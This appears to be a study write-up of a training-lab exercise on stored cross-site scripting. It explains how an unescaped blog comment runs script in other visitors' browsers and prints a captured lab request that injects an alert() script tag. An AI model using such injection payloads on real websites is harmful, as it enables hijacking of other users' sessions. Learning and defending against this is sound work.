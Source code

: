 What is stored cross-site scripting?   
Stored XSS or persistent XSS araises when an application recieves data from an untrusted source and includes that data within its later  HTTP responses in an unsafe way. 

Suppose a website allows users to submit comments on blog posts, which are displayed to other users. Users submit comments using an HTTP    
request like the following:  

POST /post/comment HTTP/1.1  
Host: vulnerable-website.com  
Content-Length: 100  

postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net  

After this comment has been submitted, any user who visits the blog post will receive the following within the application's response:
<p>This post was extremely helpful.</p>  
Assuming the application doesn't perform any other processing of the data, an attacker can submit a malicious comment like this:
<script>/* Bad stuff here... */</script>  

Within the attacker's request, this comment would be URL-encoded as:  
comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E  

Any user who visits the blog post will now receive the following within the application's response:
<p><script>/* Bad stuff here... */</script></p>  

The script supplied by the attacker will then execute in the victim user's browser, in the context of their session with the application. 

***

###### Lab: Stored XSS into HTML context with nothing encoded  
POST /post/comment HTTP/1.1  
Host: ac3a1ff01e93fd038023e57d00360025.web-security-academy.net  
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: en-US,en;q=0.5  
Accept-Encoding: gzip, deflate  
Referer: https://ac3a1ff01e93fd038023e57d00360025.web-security-academy.net/post?postId=2  
Cookie: session=uE2UxMTA7XRIh1tvGZfMWOgWpunGIQUZ  
Connection: close  
Upgrade-Insecure-Requests: 1  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 144  

csrf=DrnM0FYX8iuxJY8DWROKokJK6svLtua9&postId=2&comment=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&name=wardaddy&email=wardaddy%40localhost&website=
